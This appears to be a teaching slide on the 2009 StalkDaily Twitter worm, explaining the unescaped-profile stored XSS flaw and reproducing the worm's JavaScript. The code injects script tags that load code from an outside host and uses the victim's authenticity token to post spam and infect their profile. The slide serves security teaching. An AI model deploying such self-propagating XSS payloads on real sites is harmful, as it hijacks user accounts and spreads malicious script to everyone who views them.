

# Twitter Worm (2009)
Can save URL-encoded data into Twitter profile, data not escaped when profile is displayed
Result: StalkDaily XSS exploit.  If view an infected profile, script infects your own profile.

	var update = urlencode("Hey everyone, join www.StalkDaily.com. It's a site like Twitter but with pictures, videos, and so much more!  ");
var xss = urlencode('http://www.stalkdaily.com"></a><script src="http://mikeyylolz.uuuq.com/x.js"></script><script src="http://mikeyylolz.uuuq.com/x.js"></script><a ');
     var ajaxConn = new XHConn();
ajaxConn.connect(“/status/update", "POST", "authenticity_token="+authtoken+"&status="+update+"&tab=home&update=update");
ajaxConn1.connect(“/account/settings", "POST", "authenticity_token="+authtoken+"&user[url]="+xss+"&tab=home&update=update")

http://dcortesi.com/2009/04/11/twitter-stalkdaily-worm-postmortem